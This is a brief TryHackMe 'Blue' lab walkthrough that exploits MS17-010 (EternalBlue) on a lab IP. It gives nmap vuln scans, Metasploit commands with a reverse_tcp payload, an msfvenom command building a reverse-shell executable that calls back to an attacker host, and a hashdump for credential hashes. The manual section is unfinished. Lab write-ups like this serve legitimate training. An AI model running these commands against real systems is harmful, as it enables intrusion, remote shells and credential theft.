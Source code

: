 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

`nmap -A 10.10.68.22`

``<img src="../../.gitbook/assets/image (1).png" alt="" data-size="original">``

The box is vulnerable to ms17-010

`nmap -p135,139,445,3389 --script=vuln 10.10.68.22`

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate

#### Option #1 - Metasploit

`msfconsole`&#x20;

`search eternalblue`&#x20;

`use exploit/windows/smb/ms17_010_eternalblue`&#x20;

`set payload windows/x64/meterpreter/reverse_tcp`&#x20;

`set RHOSTS 10.10.68.22`&#x20;

`run`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

#### Option #2 - Manual

Do later

`git clone https://github.com/3ndG4me/AutoBlue-MS17-010 msfvenom -p windows/shell_reverse_tcp -f exe-service lhost=10.10.227.183 lport=443 -o ebevil.exe`

### Cracking

`hashdump`

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>



